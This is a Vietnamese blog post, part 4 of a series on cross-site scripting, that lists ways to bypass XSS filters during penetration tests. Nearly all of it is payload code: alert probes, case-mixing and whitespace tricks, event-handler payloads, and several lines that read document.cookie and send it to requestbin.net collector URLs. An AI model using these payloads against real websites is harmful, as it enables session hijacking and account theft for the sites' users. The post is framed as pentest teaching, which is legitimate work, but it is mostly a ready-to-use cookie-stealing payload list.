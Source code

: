 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

```
<script>alert(1);</script>
```

### Dùng window location

```
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
```

### Dùng image

```
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
```

## Các payload sử dụng mask
### Case sensitive

```
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```
<script  >alert(1);</script   >
```

* Không dùng thẻ script

```
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<input onblur=javascript:alert(1) autofocus><input autofocus>
<BODY ONLOAD=alert('XSS')>
<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>
<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

